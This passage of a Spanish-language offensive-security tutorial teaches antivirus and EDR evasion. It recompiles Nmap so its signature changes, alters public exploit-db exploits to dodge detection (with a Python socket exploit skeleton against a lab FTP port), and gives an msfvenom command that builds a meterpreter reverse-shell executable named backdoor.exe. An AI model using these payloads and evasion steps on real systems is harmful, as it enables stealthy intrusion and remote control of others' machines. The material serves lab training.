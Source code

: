 
## 2.3. Compilando Herramientas desde el Código Fuente

Los antivirus y EDRs detectan firmas conocidas en ejecutables populares. Una técnica clásica para evadir detección es **compilar desde el código fuente**, aplicando ligeros cambios.

### Ejemplo: Compilar Nmap desde cero (Linux)

```bash
sudo apt update && sudo apt install build-essential libssl-dev libpcap-dev -y
wget https://nmap.org/dist/nmap-7.94.tar.bz2
tar -xvjf nmap-7.94.tar.bz2
cd nmap-7.94
./configure
make
sudo make install
```

💡 **Ventaja:** tu binario no tendrá la misma huella que el oficial.

---

## 2.4. Modificando Exploits Públicos

Muchos exploits de `exploit-db` son detectados por antivirus porque su código es conocido. Cambiar nombres de funciones, variables y cadenas de texto puede ayudar.

Ejemplo de modificación en Python:

```python
# Original: https://www.exploit-db.com/exploits/12345
import socket

def pwn(target_ip, target_port):
    payload = b"\x90" * 100 + b"<shellcode>"
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(payload)
    s.close()

if __name__ == "__main__":
    pwn("192.168.56.101", 21)
```

* Cambia `"192.168.56.101"` por la IP de tu laboratorio.
* Sustituye `<shellcode>` por código generado con `msfvenom`.

---

## 2.5. Creación de Payloads Personalizados con msfvenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f exe -o backdoor.exe
```
